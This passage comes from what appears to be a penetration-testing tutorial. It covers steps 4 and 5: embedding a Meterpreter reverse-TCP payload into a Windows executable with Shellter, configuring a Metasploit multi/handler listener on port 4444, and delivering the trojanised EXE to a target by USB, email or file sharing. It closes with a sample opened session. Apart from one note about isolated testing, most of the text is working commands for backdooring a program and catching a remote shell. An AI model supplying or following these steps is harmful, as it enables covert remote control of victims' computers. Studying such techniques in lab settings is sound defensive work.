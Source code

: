            ```yaml
            
            LHOST: 192.168.1.100
            LPORT: 4444
            
            ```
            
8. **Generate the New EXE:**
    - Shellter will inject the payload and generate a new EXE file with the payload embedded.

---

### **Step 4: Configure the Metasploit Listener**

1. **Start Metasploit:**
    
    ```bash
    
    msfconsole
    
    ```
    
2. **Set Up the Exploit Handler:**
    
    ```bash
    
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost <your_Kali_IP>
    set lport 4444
    
    ```
    
3. **Run the Listener:**
    
    ```bash
    
    run
    
    ```
    
    - The listener will now wait for incoming connections.

---

### **Step 5: Execute the Malicious EXE**

1. **Transfer the Malicious EXE to the Target System:**
    - Use **USB**, **email**, or **file-sharing** to transfer the modified EXE to the target machine (for testing purposes only in an isolated environment).
2. **Run the EXE:**
    - Execute the modified EXE on the target system.
3. **Check for the Meterpreter Session:**
    - On the Metasploit console, you should see an active **Meterpreter session**:
        
        ```scss
        
        [*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.105:51542) at 2024-10-18 14:03:39 +0000
        